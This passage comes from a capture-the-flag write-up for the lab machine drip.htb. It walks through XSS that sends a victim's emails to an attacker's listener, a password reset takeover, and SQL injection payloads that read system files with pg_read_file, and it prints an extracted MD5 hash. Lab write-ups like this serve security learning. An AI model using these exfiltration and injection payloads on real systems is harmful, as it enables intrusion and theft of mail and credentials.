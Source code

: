 Leverage this to execute JavaScript in victim’s mailbox (`bcase@drip.htb`).

## Exploitation Script

Modify the provided Python script to send a malicious email with payload exfiltrating private email content via the attacker’s HTTP server:

```plaintext
python3 xss.py -m <message_id> -i <YourIP> -p 4243
```

Start a local listener to capture the exfiltrated base64 encoded email content:

```plaintext
rlwrap nc -lnvp 4243
```

## 3\. Collect Password Reset Token and Access Dashboard

## Reading Emails

Fetch sensitive emails (`_uid` param controls message).

After exploiting XSS, extract reset tokens from password reset emails.

Add the internal dashboard domain and reset bcase password:

```plaintext
echo "10.10.11.54 dev-a3f1-01.drip.htb" | sudo tee -a /etc/hosts
```

Update bcase’s password via read reset token URL.

Log into dashboard at [`http://dev-a3f1-01.drip.htb/`.](http://dev-a3f1-01.drip.htb/.)

## 4\. SQL Injection in Analytics Portal — Extract Linux Credentials

## Exploit SQL Injection

On the dashboard’s `/analytics` page, a search parameter is injectable.

Use SQLi payloads to extract files:

```plaintext
' UNION SELECT pg_read_file('/etc/passwd', 0, 2000) --
' UNION SELECT pg_read_file('/etc/hosts', 0, 2000) --
```

Extract Linux user hashes and other files.

Extracted PostgreSQL log file reveals user `ebelford`’s MD5 hash:

```plaintext
8bbd7f88841b4223ae63c8848969be86
```
